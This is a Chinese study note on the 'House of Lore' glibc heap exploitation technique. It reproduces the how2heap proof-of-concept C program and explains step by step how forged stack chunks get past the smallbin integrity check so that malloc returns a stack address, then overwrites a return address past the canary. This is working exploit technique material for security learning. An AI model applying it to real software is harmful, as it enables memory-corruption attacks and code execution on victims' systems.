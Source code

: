 # house of lore笔记

Small bin的机制而导致的任意地址分配

**前提**：可以覆盖`victim->bk`指针

### 0x1 分析

#### [实例分析](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/house_of_lore.c)

```c
/*
Advanced exploitation of the House of Lore - Malloc Maleficarum.
This PoC take care also of the glibc hardening of smallbin corruption.

[ ... ]

else
    {
      bck = victim->bk;
    if (__glibc_unlikely (bck->fd != victim)){

                  errstr = "malloc(): smallbin double linked list corrupted";
                  goto errout;
                }

       set_inuse_bit_at_offset (victim, nb);
       bin->bk = bck;
       bck->fd = bin;

       [ ... ]

*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void jackpot(){ puts("Nice jump d00d"); exit(0); }

int main(int argc, char * argv[]){


  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};

  fprintf(stderr, "\nWelcome to the House of Lore\n");
  fprintf(stderr, "This is a revisited version that bypass also the hardening check introduced by glibc malloc\n");
  fprintf(stderr, "This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23\n\n");
  fprintf(stderr, "This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.\n");

  fprintf(stderr, "Allocating the victim chunk\n");
  intptr_t *victim = malloc(100);
  fprintf(stderr, "Allocated the first small chunk on the heap at %p\n", victim);

  // victim-WORD_SIZE because we need to remove the header size in order to have the absolute address of the chunk
  intptr_t *victim_chunk = victim-2;

  fprintf(stderr, "stack_buffer_1 at %p\n", (void*)stack_buffer_1);
  fprintf(stderr, "stack_buffer_2 at %p\n", (void*)stack_buffer_2);

  fprintf(stderr, "Create a fake chunk on the stack\n");
  fprintf(stderr, "Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corrupted"
         "in second to the last malloc, which putting stack address on smallbin list\n");
  stack_buffer_1[0] = 0;
  stack_buffer_1[1] = 0;
  stack_buffer_1[2] = victim_chunk;

  fprintf(stderr, "Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 "
         "in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake "
         "chunk on stack");
  stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
  stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
  
  fprintf(stderr, "Allocating another large chunk in order to avoid consolidating the top chunk with"
         "the small one during the free()\n");
  void *p5 = malloc(1000);
  fprintf(stderr, "Allocated the large chunk on the heap at %p\n", p5);


  fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
  free((void*)victim);

  fprintf(stderr, "\nIn the unsorted bin the victim's fwd and bk pointers are nil\n");
  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);
  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

  fprintf(stderr, "Now performing a malloc that can't be handled by the UnsortedBin, nor the small bin\n");
  fprintf(stderr, "This means that the chunk %p will be inserted in front of the SmallBin\n", victim);

  void *p2 = malloc(1200);
  fprintf(stderr, "The chunk that can't be handled by the unsorted bin, nor the SmallBin has been allocated to %p\n", p2);

  fprintf(stderr, "The victim chunk has been sorted and its fwd and bk pointers updated\n");
  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);
  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

  //------------VULNERABILITY-----------

  fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");

  victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

  //------------------------------------

  fprintf(stderr, "Now allocating a chunk with size equal to the first one freed\n");
  fprintf(stderr, "This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer\n");

  void *p3 = malloc(100);


  fprintf(stderr, "This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk\n");
  char *p4 = malloc(100);
  fprintf(stderr, "p4 = malloc(100)\n");

  fprintf(stderr, "\nThe fwd pointer of stack_buffer_2 has changed after the last malloc to %p\n",
         stack_buffer_2[2]);

  fprintf(stderr, "\np4 is %p and should be on the stack!\n", p4); // this chunk will be allocated on stack
  intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode
  memcpy((p4+40), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary
}
```

#### 原理分析

关键代码在这了

```c
//_int_malloc()
[ ... ]

else
    {
      bck = victim->bk;
    if (__glibc_unlikely (bck->fd != victim)){

                  errstr = "malloc(): smallbin double linked list corrupted";
                  goto errout;
                }

       set_inuse_bit_at_offset (victim, nb);
       bin->bk = bck;
       bck->fd = bin;

       [ ... ]
```

1. 首先假设我们可以覆盖`victim->bk`指针

2. 我们先准备我们可以控制的栈空间，分别是`stack_buffer_1[4]` `stack_buffer_2[4]`。作为两个`fake_chunk`。

3. 申请一个small bin 范围内的内存`victim`。

4. 准备栈空间：

   让`stack_buffer_1`的`fd`指针指向`victim`，来绕过第一个上述检查，再让`bk`指针指向`stack_buffer_2`，为第二次检查做准备。

   让`stack_buffer_2`的`fd`指针指向`stack_buffer_1`，来绕过第二次检查。

5. 申请一个大一点的`barrir`。

6. `free`掉`victim`，在申请一个大内存，把`victim`放进`small bin`中。

7. 覆盖`victim->bk`指针为`stack_buffer_1`来准备绕过第一个检查。

8. 申请两个与`victim`相同的内存，第二个就是`stack_buffer_1`。

### 0x2 reference

[知世大佬]([https://nightrainy.github.io/2020/02/01/how2heap%E6%80%BB%E7%BB%93%E8%AE%A1%E5%88%92%E5%85%AD/](https://nightrainy.github.io/2020/02/01/how2heap总结计划六/))

